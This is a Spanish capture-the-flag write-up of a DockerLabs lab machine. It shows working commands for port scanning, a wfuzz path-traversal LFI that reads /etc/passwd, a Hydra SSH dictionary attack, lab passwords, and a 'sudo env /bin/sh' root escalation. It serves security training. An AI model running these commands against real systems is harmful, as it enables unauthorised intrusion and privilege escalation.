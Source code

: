 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/29014b67-1433-4f9f-b02b-7cf8e7add5cb)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **22/tcp(SSH):** OpenSSH 9.6p1 (Ubuntu)
2.  **80/tcp(HTTP):** Apache httpd 2.4.58

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Y se encontró la pagina por defecto de Apache2 Ubuntu.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/a15883b4-4785-4930-830f-6a6cdafb324b)

# Fase 2- Exploración

#### FeroxBuster
```python
301      GET        9l       28w      312c http://172.18.0.2/wordpress => http://172.18.0.2/wordpress/
200      GET       22l      105w     5952c http://172.18.0.2/icons/ubuntu-logo.png
200      GET      363l      961w    10671c http://172.18.0.2/
200      GET      363l      961w    10671c http://172.18.0.2/index.html
```
Feroxbuster nos encontró que existe un directorio llamado wordpres.

#### Wordpress
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/7b243292-6534-4859-8a95-ca6acd557e7f)

Dentro de la pagina nos dice que podemos cambiar la información y cosas así, es una pagina web en pañales.
Al revisar el codigo nos encontramos con un comentario interesante:
```python
<!-- El desarollo de esta web esta en fase verde muy verde te dejo aqui la ventana abierta con mucho love para los curiosos que gustan de leer -->
```

#### index.php
```
200      GET       40l      115w     1048c http://172.18.0.2/wordpress/index.php
```
Encontramos con feroxbuster un index.php dentro de wordpress, no cambia en nada la pagina, sigue siendo lo mismo.

# Fase 3- Explotación

#### LFI
```python
> sudo wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u "http://172.18.0.2/wordpress/index.php?FUZZ=../../../../../etc/passwd" --hc 404 --hl 40

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.18.0.2/wordpress/index.php?FUZZ=../../../../../etc/passwd
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                    
=====================================================================

000002045:   200        66 L     148 W      2319 Ch     "love"  
```
Como no había nada mas para revisar, probe hacer un LFI con wfuzz al parametro index.php. Y nos encontró la palabra `love`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/dcc6a070-7d71-4b6f-8ac6-88b652526716)
La probamos y funciono. Estamos leyendo archivos internos de la maquina. Vemos 2 posibles usuarios para ssh, `pedro` y `rosa`.

#### Hydra
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/9cb6eee5-83df-4abe-ba2e-1f9ff41bd640)
Realizamos un ataque de diccionario al usuario `rosa` en el puerto ssh, y encontramos su contraseña `lovebug`.

# Fase 4- Privilegios

#### sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b0354416-b5b4-4769-bf93-47579e793559)
Despues de realizar el tratamiento de la TTY, al realizar el comando `sudo -l` vemos que tenemos permisos de ejecución de `ls` y `cat`.

#### ls y cat
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c193e0cf-248f-49a0-b6f8-b2bad9056fce)

Como tenemos permisos vemos que dentro del directorio `/root/`, hay un archivo llamado `secret.txt`.
El archivo contiene lo siguiente:
```python
4E 5A 58 57 43 59 33 46 4F 4A 32 47 43 34 54 42 4F 4E 58 58 47 32 49 4B
```
Es un mensaje codificado en hexadecimal, me dirigí a la pagina web [https://gchq.github.io/CyberChef/] Para ver que es el mensaje y es esto:
```python
noacertarasosi
```

Esta contraseña era contraseña del usuario pedro y no del usuario root.
```python
> whoami
> Rosa
> su root
Password:noacertarasosi
su: Authentication failure
> su pedro
Password:noacertarasosi
> whoami
> pedro
```

#### Pedro
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/194b4476-b456-4fb6-9c07-d61d83eafa20)
Somos el usuario pedro y tenemos permisos de ejecución del binario env.
```python
sudo env /bin/sh
```
Para escalar solamente hay que ejecutar este comando y listo, somos root!



